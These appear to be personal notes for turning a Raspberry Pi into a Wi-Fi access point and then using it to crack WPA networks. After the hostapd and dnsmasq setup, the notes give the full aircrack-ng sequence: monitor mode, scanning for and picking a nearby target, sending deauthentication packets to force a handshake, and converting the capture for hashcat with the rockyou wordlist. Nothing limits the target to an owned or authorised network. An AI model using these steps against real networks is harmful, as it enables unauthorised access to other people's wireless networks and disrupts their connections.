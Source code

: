 # WiPi


- nm-connection-editor #set shared on ipv4 tab for the wired conn
- ifconfig #check your own ip to get an idea of the network
- sudo nmap -e eno1 -sn 10.42.0.0/24
ssh into the discovered ip
- ssh pi@[IPaddress] #enter password. Nothing shows when you type in a pass on RPi

- sudo su #become the ROOT
- sudo apt update #update the list of packages
maybe upgrade.. restart after upgrade
- sudo apt install vim hostapd dnsmasq
stop the two services

set static ip and disable dhcp on wlan0
- edit /etc/dhcpcd.conf #add to eof
interface wlan0
static ip_address=192.168.3.254/24
denyinterfaces wlan0

rename original file for backup
- sudo mv /etc/dnsmasq.conf /etc/dnsmasq.conf.orig
create new dnsmasq.conf
- sudo vim /etc/dnsmasq.conf
interface=wlan0
dhcp-range=192.168.3.1,192.168.3.20,255.255.255.0,24h

create configuration for the access point
- vim /etc/hostapd/hostapd.conf #enter the following:
interface=wlan0
driver=nl80211
channel=7 #sets channel within the 2.4Ghz range
wmm_enabled=0 #wireless multimedia auto prioritizes media transmissions
macaddr_acl=0
auth_algs=1 #authentication algorithms. either one or on.. I'm not sure
ignore_broadcast_ssid=0
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
rsn_pairwise=CCMP
ssid=<Network_Name>
wpa_passphrase=<password> #choose a dumb one!

specify the location of the config file we just created
- sudo vim /etc/default/hostapd  #edit the following line
#DAEMON_CONF=""
to
DAEMON_CONF="/etc/hostapd/hostapd.conf"

apt install aircrack-ng p7zip git
git clone https://github.com/hashcat/hashcat.git
cd hashcat
make
make install



airmon-ng start wlan1
airmon-ng check kill
airmon-ng start wlan1
airodump-ng wlan1mon #shows nearby networks
ctrl-z
#pick target, new term. basic service set id
mkdir capture
airodump-ng -c [channel# of target] --bssid [bssid] -w /home/pi/capture wlan1mon
#new term, -0 is deauth packets, sending 2, a for AP
aireplay-ng -0 2 -a [get BSSID] wlan1mon
#second terminal has bssid for AP. check for wpa handshake
#convert and then crack. hashcat

https://da.gd/rockyou
https://da.gd/Top1000

wget https://github.com/hashcat/hashcat-utils/archive/master.zip
unzip master.zip
cd hashcat-utils-master/src
make
#create the hccap file for hashcat
./cap2hccapx.bin /home/pi/capture/-01.cap /home/pi/capture/crackme.hccap





#stop here, unmask and start services. hostapd dnsmasq
